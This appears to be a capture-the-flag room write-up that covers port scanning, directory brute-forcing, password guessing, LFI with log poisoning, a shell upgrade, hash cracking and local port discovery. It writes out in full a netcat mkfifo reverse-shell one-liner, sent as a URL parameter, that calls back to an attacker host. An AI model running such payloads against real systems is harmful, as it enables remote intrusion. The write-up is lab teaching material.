







This was an interesting and thought-provoking room!

So,let's start!

# Enumeration
 Using nmap I founded 2 open ports : 22 (for ssh) and 80 (for http service)

 Command used: 
> nmap -sS -Pn -T4 -vvv <ip>


Now, looking after port 80, I used gobuster and thus got the following directories:


On checking index.php, Got a login form:


On checking further directories and enumeration i got the hint for the password:


So, I made a script and thus found out the password:


> password: admin44admin

Now,checking the source-code ,a hint was given : use *page* as GET parameter


So, I tried opening a shell using the following command (passed as get parameter):

> rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <ip> <port> >/tmp/f

Using any online URL encoder tool,I encoded this string and passed as GET parameter and thus was able to obtain a shell.


Used burp for passing GET request:


for reference, you can read the concept here: https://www.hackingarticles.in/apache-log-poisoning-through-lfi/


After getting the shell lets convert it into a stable tty shell by using following commands:

```py
python3 -c 'import pty; pty.spawn("/bin/bash")'
export TERM=xterm
```


I searched for the user flag but there were only previous hints that we got. But then we got the password hash for the user files and after cracking it using john we came to know that its password is `magic`


So now we can login as files through ssh!
After finding a bit i used following command to check if there is possibility for port forwading and YES there were two ports running locally...
```py
ss -tulwn
```


I tried 3336 port but there was nothing but port 8000 gave us positive response!




So we ran gobuster on it and found a index.html directory which was a login page.




And its source contained a login.js directory which gave us the creadentials.
So we succesfully loged in....


